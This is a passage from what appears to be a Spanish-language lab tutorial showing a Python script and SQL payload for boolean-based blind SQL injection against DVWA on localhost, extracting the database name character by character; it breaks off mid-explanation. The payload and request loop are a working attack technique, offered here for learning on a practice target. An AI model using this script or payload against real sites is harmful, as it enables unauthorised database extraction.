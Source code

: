 ```python
            
            p1.status(url)

            r = requests.get(url, cookies=cookies)

            if "User ID exists in the database." in r.text:
                database += character
                p2.status(database)
                break

if __name__ == '__main__':

    makeRequest()

```

Este script es similar al que usamos en post anteriores, solamente cambian algunas cosas, por ejemplo cuando usamos este script anteriormente en otro post la vulnerabilidad estaba en el campo de la cookie, pero en este caso la vulnerabilidad esta directamente en el parámetro id que se tramita por el método GET.

`characters = string.ascii_lowercase + string.digits + "-_:@!$%&()*+/;<=>?[\]^{|}.~"`

Aquí estamos agregando algunos dígitos especiales como guion bajo o símbolos que podrían venir en el nombre de la tabla.

> Estos no son todos los símbolos especiales existentes, pero son los comunes.

`for position in range(1,5):`

En el primer for estamos creando un ciclo que se repetirá 4 veces, recuerda que en programación se inicia desde el 0 por lo que tendremos que poner que termine en 5.

Esto se repetirá 4 veces, ya que la longitud del nombre de la base de datos es 4.

`for character in characters:`

En el siguiente for obtendremos cada carácter que esté en la variable characters que declaramos anteriormente, esto irá iterando sobre cada posición de esa variable.

Para después en cada iteración ejecutar lo siguiente.

Primero crear una variable llamada url con la siguiente consulta:


`1' AND (SELECT SUBSTRING(database(),1,1)='a' -- -`

Pero la pondremos url encodeada y también asignarle en los valores que iran cambiando para fuzzear.

```py
url = "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1'+AND+(SELECT+SUBSTRING(database(),%d,1))='%s'+--+-&Submit=Submit" % (position, character)
```

Quedándonos así, en el %d irán iterando las posiciones de cada carácter de la base de datos, y en el %s irá el valor actual de la variable character que creamos con el for.

Después de asignar la consulta nos toca declarar los valores de la cookie:
